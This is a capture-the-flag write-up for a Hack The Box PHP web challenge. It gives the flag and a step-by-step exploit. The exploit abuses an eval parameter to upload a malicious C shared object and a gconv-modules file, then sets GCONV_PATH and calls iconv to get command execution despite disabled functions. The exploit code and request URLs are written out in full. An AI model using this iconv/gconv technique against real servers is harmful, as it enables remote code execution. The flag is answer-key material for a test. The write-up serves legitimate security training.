


# one line php challenge (Web)

  
  


## Flag

``
HTB{iconv_r34lly_b3_d01ng_us_lik3_th4t}
``

## Solution

We're given a a web page where some php code is displayed. Basically if we set the bottle emoji GET parameter then eval will be executed and prints whatever the get parameter has assigned to pen emoji variable.



So we'll simply to execute commands with some known php functions (system, shell_exec).



But we get the warning that for security reasons we can't execute this function. Same applies for every other function with command execution capability, cause at the Dockerfile the configure of PHP runs with --disable-all parameter which disables all these functions.

So we can't execute command. Sad.

But next to this it has the --with-iconv parameter, and while searching for bypasses for this we came to this interesting [gist](https://gist.github.com/LoadLow/90b60bd5535d6c3927bb24d5f9955b80). It uses iconv to execute some payload on the server.

First we'll need to make the payload.

We know we can read the flag by executing the `/readflag` command so we can try to print it's output to a file in  /www

```c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  system("/readflag > /www/test");
}
```

We can compile that using `gcc payload.c -o payload.so -shared -fPIC`

Then in order to upload the payload we can simulate a form with the following eval payload:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/payload.so",file_get_contents('php://input'));`

and we'll also need to upload a `gconv-modules` file, also to the /tmp folder:

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;echo%20file_put_contents("/tmp/gconv-modules",file_get_contents('php://input'));`

Then we only have to execute the payload and see if it printed anything to /test

`http://docker.hackthebox.eu:31047/?%F0%9F%8D%BC=$%F0%9F%96%8D%EF%B8%8F;putenv(%22GCONV_PATH=/tmp%22);iconv(%22payload%22,%20%22UTF-8%22,%20%22whatever%22);`

